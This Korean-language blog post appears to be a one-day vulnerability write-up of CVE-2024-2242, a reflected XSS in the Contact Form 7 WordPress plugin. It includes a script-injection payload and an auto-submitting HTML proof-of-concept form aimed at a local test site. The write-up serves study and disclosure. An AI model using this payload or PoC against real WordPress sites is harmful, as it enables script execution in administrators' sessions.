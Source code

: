 ```yaml
---
title: "[CVE-2024-2242] 취약점 분석 보고서"
description: "Contact Form 7 플러그인 5.9 이하 버전에서 발생하는 Reflected XSS"
author: khh
date: 2025-01-14 17:35:00 +0900
categories: [One-Day 분석, WordPress]
tags: [빡공팟, 콘테스트 네뷸라, WordPress, CVE, Reflected XSS]
image: assets/img/wordpress-thumbnail.png
exclude_img: true
---
```


## 개요

Contact Form 7 플러그인 5.9 이전 버전까지 모든 버전에서 active-tab 매개변수를 통한 Reflect XSS 취약점이 발생합니다.

## 분석

취약점은 contact-form 편집하는 곳에서 발생합니다. 글을 편집하고 저장을 누르면  active-tab 파라미터로 값이 전달됩니다. 만약 여기에 악성 스크립트가 삽입된다면 XSS 취약점이 발생합니다.

![image.png](assets/posts/one-day/2025-01-20/image-001.png)

### edit_contact-form.php

![image.png](assets/posts/one-day/2025-01-20/image-002.png)

편집 기능이 있는 edit_contact-form.php 코드입니다. active-tab으로 전달되는 값이 echo 뒤에 $_GET 요청으로 입력값 검증 없이 바로 처리하고 있으므로 Reflected XSS 취약점이 발생하게 됩니다.

## 취약점 테스트

![image.png](assets/posts/one-day/2025-01-20/image-003.png)

contact form 편집에서 글을 작성하고, 저장합니다.

![image.png](assets/posts/one-day/2025-01-20/image-004.png)

active-tab 값을 따로 설정하지 않으면 ‘0’으로 설정됩니다. 이 부분에 '"><svg/onload=prompt(7);>{{7*7}} 페이로드를 삽입하면 input 태그가 닫히면서 뒤에 악성 스크립트가 실행됩니다. 

## POC

```html
<html>
  <body>
    <form action="http://localhost:5000/wp-admin/admin.php">
      <input type="hidden" name="page" value="wpcf7" />
      <input type="hidden" name="post" value="212" /> <!-- post id -->
      <input type="hidden" name="cftsearch_submit" value="1" />
      <input type="hidden" name="active&#45;tab" value="&apos;&quot;&gt;&lt;svg&#47;onload&#61;prompt&#40;7&#41;&#59;&gt;&#123;&#123;7&#42;7&#125;&#125;" /> <!-- insert attack payload into value property. HTML Entity>
      <label class="screen-reader-text" for="<?php echo esc_attr( $input_id ); ?>"><?php echo $text; ?>:</label>
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

reference: <https://github.com/RandomRobbieBF/CVE-2024-2242>